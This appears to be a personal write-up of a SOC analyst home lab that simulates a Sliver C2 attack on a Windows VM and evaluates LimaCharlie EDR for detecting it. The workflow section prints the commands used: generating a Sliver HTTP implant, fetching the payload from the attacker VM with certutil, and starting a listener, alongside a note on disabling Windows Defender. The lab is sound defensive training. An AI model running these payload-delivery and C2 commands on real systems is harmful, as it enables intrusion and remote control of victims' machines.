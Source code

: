 

  <h1>SOC Attack and Detection with Lima Charlie, Sigma, & Sliver</h1>

  <h2>Introduction</h2>
  <p>Recently, to optimize telemetry storage costs for my organization, I began researching alternatives to traditional SIEMs, which led me to look into Lima Charlie. Lima Charlie is a solution that offers endpoint detection and response but with free storage for up to one year's worth of data. 
</p>
<p>To evaluate my understanding of Lima Charlie, I followed the SOC Analyst home lab instructions from Eric Capuano's blog series, which can be found here. Eric's blog series was easy to follow and taught many hands-on practical cybersecurity skills used in the field.
</p>

  <h2>Skills Covered</h2>
  <ul>
    <li>Simulate cybersecurity attack and defense roles</li>
    <li>Set up a virtualized environment in VMware Workstation with Windows and Linux</li>
    <li>Disabling Windows Defender via registry and system settings</li>
    <li>Utilize Command Prompt, PowerShell, and Linux Terminal</li>
    <li>Remote accessing VMs using SSH</li>
    <li>Establish a C2 server with Sliver, deploying a payload on the victim machine</li>
    <li>Analyze telemetry and EDR with Sysmon and LimaCharlie for detection and defense against Sliver</li>
    <li>Detection & Response rule creation</li>
    <li>Sigma rule creation and implementation</li>
  </ul>


  <h2>Project Workflow</h2>
  <p>Below is a summary of my steps with this SOC Analyst lab. Much of it mirrors Eric's blog series and incorporates any issues I encountered. If you want a complete step-by-step tutorial, follow along with the original blog. </p>
  <ol>
    <li><strong>Environment Setup</strong>
      <ul>
        <li>I set up a SOC environment utilizing Linux Ubuntu Server as the attack machine as it is lighter weight than Kali to conserve resources and for practice using Terminal. A static IP was implemented for simplicity's sake and to ensure the SOC environments function in the future.  A test for functionality with the static IP can be seen below:</li>
        <li>Commands:
          <pre>
            sliver-server # starting the server
            generate --http [Linux_VM_IP] --save /opt/sliver # generating C2 session payload
          </pre>
        </li>
      </ul>
    </li>
    
  <li><strong>Transferring Payload and Executing on Windows</strong>
      <ul>
        <li>Setting up a Python server on Linux for payload transfer.</li>
        <li>Using PowerShell on Windows to download and execute the payload.</li>
        <li>Commands:
          <pre>
            python3 -m http.server 80 # start Python server
            certutil.exe -f -urlcache http://[Linux_VM_IP]/GERMAN_HEADLINE.exe german_headline.exe # transfer payload
          </pre>
        </li>
      </ul>
    </li>

  <li><strong>Upon closing the python server in the linux machine, we will now start the sliver-server to receive the call back.</strong>
      <ul>
        <li>Starting the server</li>
        <li>Setting up listener</li>
        <li>Commands:
          <pre>
            sliver-server 
            http
          </pre>
        </li>
      </ul>
    </li>

  <li><strong>Now time to go into Lima Charlie to see the noise!</strong>
      <ul>
        <li>Going into the sensors tab, I can see that my windows machine is online</li>
        <li>Viewing your sensor that was installed, I liked that you could isolate the device from the network at the click of a button. Containing the problem at such ease is great for response and which is a process I’m sure could be automated within Lima Charlie.</li>
        <li>You’ll also be able to see things like the private / public IP, mac address, etc</li>
        <li>You can also view the entire file system, the device network, and basically everything about the device while the Lima Charlie sensor is installed on the device that you want to monitor.</li>
      </ul>
    </li>

  <li><strong>Going into timeline we can see plenty of noise that’s happening on the system. Tracking our c2 instance, we can find the exact time that we downloaded and executed it</strong>
      <ul>
        <li>time it was downloaded then executed moments later when looking through logs</li>
        <li>One event was also labeled as SENSITIVE_PROCESS_ACCESS very close to the event of a network connection with the c2 server. This could be because of the enumeration of privileges we were doing and when running commands through sliver.</li>
      </ul>
    </li>

  <li><strong>All in all, there’s many different way to see and track down what is happening. Given we had the IP that the process was connecting to, we could have also filtered our search results with the malicious IP that we’re using to emulate an attacker.</strong>
      <ul>
        <li>Given there’s plenty of noise that happens in the background of a windows machine, it’s probably a good idea to get familiar with the native processes within windows in order to have a better understanding of what’s normal and what isn’t. This is some of the advice given in the blog post referenced at the very beginning of this post.</li>
        <li>If I had to give any constructive criticism, I’d say that filtering through all the events is a bit too much. I am used to working with a SIEM that allows you to filter for commands ran and having the option to only view events where a command ran exists.</li>
        <li>For example, when filtering for sensitive process access events, I had to scroll quite a bit in order to see that it was involved with our c2 instance.</li>
        <li>The scroll bar on the bottom shows I scrolled about halfway through. Given all the JSON formatted objects, it’s quite a bit to scroll through.</li>
        <li>But Lima Charlie is new to me so maybe after some tinkering, I’ll get used to it and learn all the tricks.</li>
      </ul>
    </li>
  </ol>

  <h2>Recommendations and Conclusion</h2>
  <p>This lab was well-designed and comprehensive. I highly recommend it. After completing the lab, I can confirm that Lima Charlie is a powerful tool, thanks to its extensive EDR functionality and long-term storage that is free of cost. </p>

  <p>After the lab, Lima Charlie would be a great solution to reduce telemetry overhead for my organization. However, it is essential to note that Lima Charlie is an EDR solution and not as powerful as traditional SIEMs. Therefore, implementing a hybrid solution combining Splunk and Lima Charlie would be the best approach. This approach would allow us to use Splunk for initial monitoring and utilize Lima Charlie for longer-term telemetry - giving us the best of both worlds. </p>

  <hr>

